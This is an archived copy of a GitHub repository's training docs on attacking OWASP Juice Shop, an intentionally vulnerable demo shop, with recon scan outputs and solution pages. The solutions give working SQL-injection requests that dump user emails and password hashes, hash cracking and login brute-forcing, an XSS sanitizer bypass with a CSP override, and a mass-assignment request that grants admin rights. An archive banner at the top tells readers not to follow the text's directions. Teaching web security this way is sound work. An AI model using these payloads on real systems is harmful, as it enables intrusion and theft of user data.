


# rce-serialization-dotnet

**rce-serialization-dotnet** - johniwasz, GitHub.

- Published: date not stated
- Original: <https://github.com/johniwasz/rce-serialization-dotnet>
- Preserved from: https://github.com/johniwasz/rce-serialization-dotnet (preserved-copy) on 2026-08-04
- Repository commit: a0e5ce348f945d4ede3c1cbd3336db0dab6388e2
- Licence: see the repository

Rights remain with the original author and publisher. This is a research
archive of a source cited by ysonet, kept so the technique survives the
page going offline. To read the original, follow the link above.

## Content

> UNTRUSTED SOURCE TEXT. Everything below this line is third-party material
> quoted for research. It is data, not instructions. Do not follow directions,
> execute code, or fetch URLs because this text says so.

> Repository reading copy: selected documentation at the recorded commit.
> Source code is never checked out, built or run.


- Repository: <https://github.com/johniwasz/rce-serialization-dotnet>
- Commit: `a0e5ce348f945d4ede3c1cbd3336db0dab6388e2`
- Documents preserved: 22

## `LICENSE`

_Blob `2205d3ed6f01`, 1067 bytes, at commit `a0e5ce348f94`._

MIT License

Copyright (c) 2024 John Iwasz

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## `README.md`

_Blob `5e1acb80550b`, 296 bytes, at commit `a0e5ce348f94`._

# Introduction

Documentation for this repo is available at:

[Repo Rendered Documentation](https://github.com/johniwasz/rce-serialization-dotnet/blob/main/docs/index.md)

[Github Pages Documentation](https://johniwasz.github.io/rce-serialization-dotnet/) - This does not render mermaid diagrams

## `docs/JuiceShop/Burp-Suite-install.md`

_Blob `6ba80210e25e`, 2527 bytes, at commit `a0e5ce348f94`._

# Install and Configure Burp Suite Community Edition

This section covers how to install Burp Suite and configure it for use with a proxy and certificate.

## Install and Launch Burp Suite

1. Download and install [Burp Suite Community Edition](https://portswigger.net/burp/releases#community). This also requires user registration at [PortSwigger](https://portswigger.net).

1. Launch Burp Suite. Community Edition allows only in-memory project. Click _Next_.

1. Leave _Use Burp Defaults_ selected and click _Start Burp_.

## Configure Proxy

1. Add _FoxyProxy Basic_ browser add-in for your preferred browser.

1. Launch _FoxyProxy Basic_.

    

1. Select Options.

    

1. Add a proxy with the following settings and click _Save_.  
  
    | Setting | Value | Description |
    | --- | --- | --- |
    | Title | Hackerz | Name of the proxy |
    | Hostname | 127.0.0.1 | Local host |
    | Port | 8080 | Default port for Burp Suite |

    

1. Enable the Hackerz Proxy. Browsing any non-local site will result in a "No Internet" connection error until Burp Suite is started. Select _Disable_ when done with Burp Suite.

    

## Configure the Burp Suite Certificate

1. Return to the browser with _FoxyProxy Basic_ enabled and navigate to <http://burpsuite>.

1. Click _CA Certificate_. Save the certificate locally.

    

1. Right-click on the certificate in Windows Explorer and select _Install Certificate_.

    

1. Leave _Current User_ selected and click _Next_.

1. Select _Place all certificates in the following store_, click _Browse_ and select the _Trusted Certificate Authorities_ store. Click _Next_.

    

1. Click _Finish_.

## Confirm Proxy Capture in Burp Suite

1. Return to the browser with _FoxyProxy Basic_ enabled and navigate to <https://demo.owasp-juice.shop/> or <http://localhost:88> if running the container.

1. Return to Burp Suite and navigate to the _Proxy_ | _HTTP History_ tab. This will show the requests and will be a launching point for penetration testing.

    

## `docs/JuiceShop/JuiceShop-install.md`

_Blob `ba6c21abc80a`, 676 bytes, at commit `a0e5ce348f94`._

# Install and Run the OWASP Launch Juice Shop

Launch Windows Subsystem for Linux, install the container, and launch the Juice Shop.

1. Open an Ubuntu shell from a Windows Command or Powershell terminal:

    ``` powershell
    wsl
    ```

    If you need to install Windows Subsystem for Linux, please see [WSL Install](wsl-install.md).

1. Install the OWASP Juice Shop container From the Ubuntu command shell:

    ``` bash
    sudo docker pull bkimminich/juice-shop
    sudo docker run --rm -p 88:3000 bkimminich/juice-shop
    ```

    If you need to install Docker, see [Docker Install](./docker-install.md).

1. Launch a browser and navigate to `http://localhost:88`.

## `docs/JuiceShop/JuiceShop.md`

_Blob `8fe720bc3d1b`, 3447 bytes, at commit `a0e5ce348f94`._

# Juice Shop

Juice Shop is an intentionally vulnerable web site supported and maintained by [OWASP](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/owasp.org). It's available publicly at:

<https://demo.owasp-juice.shop/>

Most exercises can be completed against the [Juice Shop](https://demo.owasp-juice.shop/). More invasive exploit challenges require a local installation.

## Installing Linux

[WSL Install](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/wsl-install.md)

## Installing Juice Shop Locally

Running Juice Shop locally requires docker and Windows Subsystem for Linux.

[Docker Install](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/docker-install.md)  

To install Juice Shop a local docker container, see [Juice Shop Install](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/JuiceShop-install.md) which creates a local running instance at <https://localhost:88> and <http://localhost:88> hosted on docker on Ubuntu.

## Reconnaissance

Intelligence can be gathered from public APIs and websites using public information. This is typically referred to as [OSINT](https://osintframework.com/).

| Tool | Description |
| ---  | ----------  |
| [nmap](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/OSINT/nmap.md) | network scanning |
| [amass](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/OSINT/amass.md) | Find registered subdomains |
| [nikto](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/OSINT/nikto.md) | Find vulnerable headers and directories |
| [Kiterunner](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/OSINT/Kiterunner.md) | Find vulnerable routes |
| [securityheaders.com](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/OSINT/securityheaders.md) | Validate security headers |

## Penetration Testing

Penetration testing can be performed manually; however, tools ease the effort. These exercises use ZAP and Burp Suite Community Edition

Zed Attack Proxy is used for these exercises. Please follow these instructions to install and configure ZAP:

[Zed Attack Proxy Installation](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/zed-attack-proxy.md)

Burp Suite is a common tool used by professional penetration testers. A free version is available and can be used for these exercises as well.
Please follow the instructions to [Install and Configure Burp Suite Community Edition](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/Burp-Suite-install.md).

These exercises can use the public [Juice Shop](https://demo.owasp-juice.shop/) site or the local docker instance. The local instance is preferred as other users may compromise or take down the public site.

### CSP Header Vulnerability

In the Architecture overview you were told that the Juice Shop uses a modern Single Page Application frontend. That was not entirely true.

- Find a screen in the application that looks subtly odd and dated compared with all other screens
- Before trying any XSS attacks, you should understand how the page is setting its Content Security Policy
- For the subsequent XSS, make good use of the flaws in the homegrown sanitization based on a RegEx!

[CSP Header Vulnerability solution](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/solutions/override-csp-header.md)

### SQL Injection

Use ZAP or browser network inspection to find an endpoint that is vulnerable to SQL injection. Compromise the endpoint to exfiltrate user data.

[SQL Injection solution](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/solutions/JuiceShop-sqlinjection.md)

### Password Cracking

The SQL Injection exercise exposed details about user accounts. Use the exposed information to log as the `admin@juice-sh.op` user.

[Cracking Passwords solution](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/solutions/cracking-passwords.md)

### Mass Assignment

Mass assignment occurs when a property of a JSON or request payload is available in an unintended security context.

Review the requests and responses that are generate when creating a user. There may be a mass assignment vulnerability that allows a new user to elevate their permissions.

[Mass Assignment solution](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/solutions/mass-assignment.md)

## `docs/JuiceShop/OSINT/Kiterunner.md`

_Blob `ca8771def311`, 1663 bytes, at commit `a0e5ce348f94`._

# Kiterunner

Use [Kiterunner](https://github.com/assetnote/kiterunner) to find API endpoints. Kiterunner needs to be built locally and uses go. Kiterunner is in wide use for OSINT API reconnaissance, but has not be updated in three years.

1. Use a DOS or Powershell terminal to launch a Linux terminal:

    ``` bat
    wsl
    ```

1. Install prerequisites.

    ``` bash
    sudo apt install make
    sudo apt install golang-go
    ```

1. Get and build Kiterunner.

    ``` bash
    git clone https://github.com/assetnote/kiterunner.git
    cd kiterunner
    make build
    ```

1. Create an alias (kr) for Kiterunner.

    ``` bash
    sudo ln -s $(pwd)/dist/kr /usr/local/bin/kr
    ```

1. Review wordlists for use by Kiterunner to find common api routes.

    ``` bash
    kr wordlist list
    ```

1. Run a scan against a running OWASP Juice Shop. This command uses the first 20,000 words in the apiroutes-240128 wordlist. It uses ten concurrent requests per host; the default is 3.

    ``` bash
    kr scan https://demo.owasp-juice.shop -A=apiroutes-240428:20000 -x 10 --ignore-length=34 --fail-status-codes 404
    ```

1. Run the scan against the local OWASP Juice Shop.

    ``` bash
    kr scan https://localhost:88 -A=apiroutes-240428:20000 -x 10 --ignore-length=34 --fail-status-codes 404
    ```

1. Optional. Replay a request. Replace the text in the quotes with the output of a 200 response from the prior run. NOTE: There may be a bug which prevents successful completion.

    ``` bash
    go run ./cmd/kiterunner kb replay "GET     200 [  80220, 3235,   1] https://demo.owasp-juice.shop/api/challenges 2dpmnJyrnny32octfJuK7zz3n7l"
    ```

## `docs/JuiceShop/OSINT/amass.md`

_Blob `9e7667f2fdc5`, 1153 bytes, at commit `a0e5ce348f94`._

# Amass

Amass is an OWASP tool that can be used for both active and passive reconnaissance. This can be installed on Ubuntu by:

1. From a DOS or Powershell terminal:

    ``` bat
    wsl
    ```

1. Install amass at an Ubuntu command prompt:

    ``` bash
    sudo snap install amass
    ```

1. Download the default _config.ini_ file and save to the default Amass config file location.

    ``` bash
    mkdir -p ~/.config/amass
    curl https://raw.githubusercontent.com/OWASP/Amass/master/examples/datasources.yaml >$HOME/.config/amass/datasources.yaml
    ```

1. Perform dns passive reconnaissance. This may take a few minutes to return.

    ``` bash
    amass enum --passive -d owasp-juice.shop
    ```

    This returns:

    sponsor.owasp-juice.shop  
    help.owasp-juice.shop  
    www.owasp-juice.shop  
    owasp-juice.shop  
    stats.owasp-juice.shop  
    preview.owasp-juice.shop  
    pwning.owasp-juice.shop  
    demo.owasp-juice.shop  
    localchromeos.owasp-juice.shop  
    slides.owasp-juice.shop  
    intro.owasp-juice.shop  
    local3000.owasp-juice.shop  
    localmac.owasp-juice.shop  
    local4200.owasp-juice.shop

## `docs/JuiceShop/OSINT/nikto.md`

_Blob `06ec4863c58b`, 2261 bytes, at commit `a0e5ce348f94`._

# Introduction

In this exercise, we'll scan the OWASP Juice Shop located at:

[https://demo.owasp-juice.shop](https://demo.owasp-juice.shop)

This uses nikto to walk the hosting site and discover potential vulnerabilities.

1. Open a DOS or Powershell command prompt and use:

    ``` bat
    wsl
    ```

1. Install nikto

    ``` bash
    sudo apt install nikto
    ```

1. Run nikto against the running OWASP Juice Shop server.

    ``` bash
    nikto -h https://demo.owasp-juice.shop
    ```

    Or

    ``` bash
    nikto -h https://localhost:88
    ```

1. Note the results and potential exploits.

    The following is returned from a local scan:

    ``` txt
    - Nikto v2.1.5
    ---------------------------------------------------------------------------
    + Target IP:          127.0.0.1
    + Target Hostname:    localhost
    + Target Port:        88
    + Start Time:         2024-03-23 12:24:28 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: No banner retrieved
    + Server leaks inodes via ETags, header found with file /, fields: 0xW/ea4 0x18e4f07a9a9
    + Uncommon header 'x-frame-options' found, with contents: SAMEORIGIN
    + Uncommon header 'feature-policy' found, with contents: payment 'self'
    + Uncommon header 'x-recruiting' found, with contents: /#/jobs
    + Uncommon header 'x-content-type-options' found, with contents: nosniff
    + Uncommon header 'access-control-allow-origin' found, with contents: *
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + File/dir '/ftp/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
    + "robots.txt" contains 1 entry which should be manually viewed.
    + Uncommon header 'access-control-allow-methods' found, with contents: GET,HEAD,PUT,PATCH,POST,DELETE
    + OSVDB-3092: /css: This might be interesting...
    + OSVDB-3092: /ftp/: This might be interesting...
    + OSVDB-3092: /public/: This might be interesting...
    + 6544 items checked: 2 error(s) and 12 item(s) reported on remote host
    + End Time:           2024-03-23 12:25:21 (GMT-4) (53 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested
    ```

## `docs/JuiceShop/OSINT/nmap.md`

_Blob `d68b1da9be05`, 4358 bytes, at commit `a0e5ce348f94`._

# Introduction

Nmap is a versatile network discovery tool and more. It's often used in penetration testing and attacks.

> **Nmap may not be permitted in a work environment as it is often used for penetration testing and attacking. Executing network scans without permission may trigger security alerts and prompt a response from the organization's Security Operations Center (SOC), potentially leading to disciplinary actions or legal consequences. Therefore, it is crucial to always obtain permission and follow established protocols before utilizing tools like Nmap in a professional setting.**

Its capabilities include:

- Network discovery  
- Port scanning  
- Service detection (web server, email service)  
- Operating system detection  
- Scripting and automation  

For more information, please see [nmap Reference Guide](https://nmap.org/book/man.html).

If nmap is not installed, open a Windows Command or Powershell terminal and execute:

``` bat
winget install Insecure.Nmap
```

To scan the public OWASP Juice shop for open ports, execute:

``` bat
nmap demo.owasp-juice.shop
```

This returns:

``` text
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 20:27 Eastern Daylight Time
Nmap scan report for demo.owasp-juice.shop (81.169.145.156)
Host is up (0.12s latency).
Other addresses for demo.owasp-juice.shop (not scanned): 2a01:238:20a:202:1156::
rDNS record for 81.169.145.156: w9c.rzone.de
Not shown: 995 closed tcp ports (reset)
PORT     STATE    SERVICE
21/tcp   open     ftp
25/tcp   filtered smtp
80/tcp   open     http
443/tcp  open     https
8080/tcp open     http-proxy
```

Nmap can also detect the version of the service associated with the port using:

``` bat
nmap -sV demo.owasp-juice.shop
```

This returns:

``` text
Nmap done: 1 IP address (1 host up) scanned in 20.53 seconds
PS C:\Users\username\source\repos\rce-serialization-dotnet> nmap -sV -sS  demo.owasp-juice.shop
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 20:42 Eastern Daylight Time
Nmap scan report for demo.owasp-juice.shop (81.169.145.156)
Host is up (0.11s latency).
Other addresses for demo.owasp-juice.shop (not scanned): 2a01:238:20a:202:1156::
rDNS record for 81.169.145.156: w9c.rzone.de
Not shown: 995 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
21/tcp   open     ftp        ftpd.bin round-robin file server 3.4.0r16
25/tcp   filtered smtp
80/tcp   open     http-proxy F5 BIG-IP load balancer http proxy
443/tcp  open     ssl/http   Apache httpd 2.4.58 ((Unix))
8080/tcp open     http-proxy F5 BIG-IP load balancer http proxy
Service Info: Device: load balancer

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

Run operating system detection with:

``` bat
nmap -O demo.owasp-juice.shop
```

This returns:

``` text
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 20:34 Eastern Daylight Time
Nmap scan report for demo.owasp-juice.shop (81.169.145.156)
Host is up (0.10s latency).
Other addresses for demo.owasp-juice.shop (not scanned): 2a01:238:20a:202:1156::
rDNS record for 81.169.145.156: w9c.rzone.de
Not shown: 995 closed tcp ports (reset)
PORT     STATE    SERVICE
21/tcp   open     ftp
25/tcp   filtered smtp
80/tcp   open     http
443/tcp  open     https
8080/tcp open     http-proxy
Device type: general purpose|load balancer|firewall
Running (JUST GUESSING): OpenBSD 4.X|5.X|6.X|3.X (88%), F5 Networks TMOS 11.6.X|11.4.X (87%), FreeBSD 7.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.4 cpe:/o:f5:tmos:11.6 cpe:/o:openbsd:openbsd:5 cpe:/o:openbsd:openbsd:6 cpe:/o:f5:tmos:11.4 cpe:/o:openbsd:openbsd:3 cpe:/o:freebsd:freebsd:7.0
Aggressive OS guesses: OpenBSD 4.4 - 4.5 (88%), F5 BIG-IP Local Traffic Manager load balancer (TMOS 11.6) (87%), OpenBSD 5.0 - 5.8 (87%), OpenBSD 6.0 - 6.4 (87%), OpenBSD 4.0 (87%), OpenBSD 4.3 (86%), OpenBSD 5.0 (86%), OpenBSD 4.7 (86%), OpenBSD 4.1 (86%), OpenBSD 4.6 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 14 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.93 seconds
```

Take a moment to explore the [nmap reference guide](https://nmap.org/book/man.html) and run additional commands and also explore your localhost.

## `docs/JuiceShop/OSINT/securityheaders.md`

_Blob `edf6a07525fd`, 716 bytes, at commit `a0e5ce348f94`._

# Security Headers Checker

This public security headers checked scans site headers and assigns a score based on compliance with best practices. Please note, the site must be publicly accessible.

1. Open a browser and navigate to:
    [https://securityheaders.com/](https://securityheaders.com/)

2. Enter `demo.owasp-juice.shop`

3. Review the header scan analysis.

## OWASP Secure Headers Project

For more information, please see the [OWASP Secure Headers Project](https://owasp.org/www-project-secure-headers/).

The .NET [OwaspHeaders.Core](https://github.com/GaProgMan/OwaspHeaders.Core) project is kept up to date and supports .NET Framework, .NET 6, and .NET 8. Further, it's released with an MIT license.

## `docs/JuiceShop/docker-install.md`

_Blob `430661178192`, 768 bytes, at commit `a0e5ce348f94`._

# Install Docker and Enable WSL

Install docker and docker compose using:

``` bat
winget install "docker cli"
winget install "docker compose"
```

Optionally, install Docker Desktop. Companies with an excess of 250 employees or $10m in revenue are required to pay a subscription fee. Other conditional apply. At the time of this writing, it is free for personal use. For more information, please see [Docker Desktop Licensing](https://docs.docker.com/subscription/desktop-license/).

``` bat
winget install "docker desktop"
```

Other alternative desktop management options:

[Minikube](https://minikube.sigs.k8s.io/docs/)  
[Rancher Desktop](https://rancherdesktop.io/)  

Additional installable docker packages can be found using:

``` bat
winget search docker
```

## `docs/JuiceShop/solutions/JuiceShop-sqlinjection.md`

_Blob `22d3ef77c9fc`, 2645 bytes, at commit `a0e5ce348f94`._

# SQL Injection Solution

Use this to validate that all products can be returned, including deleted products.

``` http
GET /rest/products/search?q=dud'))OR+1+=+1--
```

Verifies a UNION clause can be used to exfiltrate data.

``` http
GET /rest/products/search?q=dud'))+UNION--
```

Note that the responses from Juice Shop have nine values.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 9,
      "name": "OWASP SSL Advanced Forensic Tool (O-Saft)",
      "description": "O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>",
      "price": 0.01,
      "deluxePrice": 0.01,
      "image": "orange_juice.jpg",
      "createdAt": "2024-03-21 00:39:44.404 +00:00",
      "updatedAt": "2024-03-21 00:39:44.404 +00:00",
      "deletedAt": null
    }
  ]
}
```

Union the request with the Users table and columns likely to exist in a Users table.

``` http
GET /rest/products/search?q=test'))%20UNION%20SELECT%20id,email,password,username,'5','6','7','8','9'%20FROM%20Users--
```

This returns user accounts.

``` json
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "admin@juice-sh.op",
      "description": "0192023a7bbd73250516f069df18b500",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 2,
      "name": "jim@juice-sh.op",
      "description": "e541ca7ecf72b8d1286474fc613e5e45",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 3,
      "name": "bender@juice-sh.op",
      "description": "0c36e517e3fa95aabf1bbffc6744a4ef",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    },
    {
      "id": 4,
      "name": "bjoern.kimminich@gmail.com",
      "description": "6edd9d726cbdc873c539e41ae8757b8c",
      "price": "4",
      "deluxePrice": "5",
      "image": "6",
      "createdAt": "7",
      "updatedAt": "8",
      "deletedAt": "9"
    }
  ]
}
```

Guessing other columns yields success.

``` http
GET /rest/products/search?q=juice'))%20UNION%20SELECT%20id,email,password,username,createdAt,updatedAt,isActive,role,'9'%20FROM%20Users--
```

Now that the admin, and other hashed passwords are exfiltrated, they can can be cracked. Proceed to [Cracking Passwords](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/solutions/cracking-passwords.md).

## `docs/JuiceShop/solutions/cracking-passwords.md`

_Blob `afd4e271c546`, 2462 bytes, at commit `a0e5ce348f94`._

# Cracking Passwords

The SQL Injection vulnerability exercise revealed the `admin@juice-sh.op` hashed password. This section details how to compromise the admin password. There is more than one approach.

The hashed password is:

`0192023a7bbd73250516f069df18b500`

| Hashing Algorithm | Character length of hash |
| ---  | ----------  |
| MD5 | 32 |
| SHA-1 | 40 |
| SHA-256 | 64 |

This password hash is 32 characters long and so we will assume this is an MD5 hash.

## Use Online Tool

There are multiple online tools for decrypting insecure hashes. Using this [online tool](https://10015.io/tools/md5-encrypt-decrypt) decrypts the password as `admin123`.

## Fuzzing in ZAP

This uses a brute force approach in ZAP to send multiple requests using fuzzing.

1. In ZAP, navigate to the rest -> user subfolder under the url of the Juice Shop attack target.

1. Right click on one of the attempts to log in. Right-click on a node under the user subfolder and select Attack | Fuzz.

    

1. Make sure the user name is the admin email address. If necessary, click `Edit` and manually update the email parameter value to `admin@juice-sh.op`. Click Save.

    

1. Highlight the value in the password field and click `Add`.

    

1. This dialog is used to select which set of values will be used to replace the text that was highlighted earlier.

    

1. Select `File Fuzzers` from the drop down. Expand `fuzzdb`-> `wordlist-user-passwd`. Check `passwds`. Click Add.

    

1. The File Fuzzer is now configured. Click OK.

    

1. Before kicking off the fuzz test. Navigate to the `Options` tab.

    

1. Uncheck the `Limit maximum errors` check box. Click `Start Fuzzing`.

    

1. Wait until the fuzz attack executes over 8,500 times. Sort by the `Code` column. Observe that a 200 response was returned when the correct password was sent. Stop the attack.

    

## `docs/JuiceShop/solutions/mass-assignment.md`

_Blob `1c326e4156c9`, 1551 bytes, at commit `a0e5ce348f94`._

# Mass Assignment

Mass assignment occurs when a property of a JSON or request payload is available in an unintended security context.

1. Review the network traffic generated after creating a user in the OWASP juice shop and note the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "someone@somewhere.com",
        "password" : "BadPass123",
        "passwordRepeat" : "BadPass123",
        "securityQuestion" : {
            "id" : 7,
            "question" : "Name of your favorite pet?",
            "createdAt" : "2024-03-24T13:50:54.019Z",
            "updatedAt" : "2024-03-24T13:50:54.019Z"
            },
        "securityAnswer" : "Bob"
    }
    ```

1. After logging in, submit a GET request to `api\Users` and observe the response:

    ``` json
    {
    "status" : "success",
    "data" : [ {
        "id" : 1,
        "username" : "",
        "email" : "admin@juice-sh.op",
        "role" : "admin",
        "deluxeToken" : "",
        "lastLoginIp" : "",
        "profileImage" : "assets/public/images/uploads/defaultAdmin.png",
        "isActive" : true,
        "createdAt" : "2024-03-24T18:39:35.837Z",
        "updatedAt" : "2024-03-24T18:39:35.837Z",
        "deletedAt" : null
    },
    . . .
    ```

1. Note that the `role` is returned. Attempt to create a new user with the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "sneakyadmin",
        "password" : "admin",
        "role" : "admin"
    }
    ```

## `docs/JuiceShop/solutions/override-csp-header.md`

_Blob `e749a0320d5e`, 1254 bytes, at commit `a0e5ce348f94`._

# Overwrite Content Security Policy Header

1. Navigate to <https://localhost:88> or <https://demo.owasp-juice.shop>.

1. Log in with a Juice Shop account.

1. A forced directory search, nikto scan, or other scan finds the /profile subdirectory. Manually navigate to it.

1. Enter this following value in _Username_:

    ``` html
    <script>alert(`xss)</script>`
    ```

    This is sanitized, but the sanitizer is naive.

1. Enter the following in _Username_:

    ``` html
    <<a|ascript>alert(`xss)</script>`
    ```

1. Set the _Image URL_ field to <https://placekitten/300/300>.

1. Note that the Content-Security-Header on the response page contains an entry like:

    ``` html
    /assets/public/images/uploads/22.jpg; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```

1. Submit <http://not.an.image/image.png> in the _Image URL_ and view the response:

    ``` html
    http://not.an.image/image.png; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```

1. Now submit the following text for the _Image URL_:

    ``` html
    http://not.an.image/image.png script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```

## `docs/JuiceShop/wsl-install.md`

_Blob `de74c1b95e2c`, 802 bytes, at commit `a0e5ce348f94`._

# Windows Subsystem for Linux Install

Setting up an environment on Windows requires enabling [Windows Subsystem for Linux](https://learn.microsoft.com/en-us/windows/wsl/?WT.mc_id=MVP_337682) and launch it.

``` powershell
wsl --install
```

There may be multiple distributions installed. For these exercises we will use the default Ubuntu distribution. To check distributions use:

``` powershell
wsl --list
```

If Ubuntu is not the default, then use:

``` powershell
wsl --set-default Ubuntu
```

## Validating Docker Install

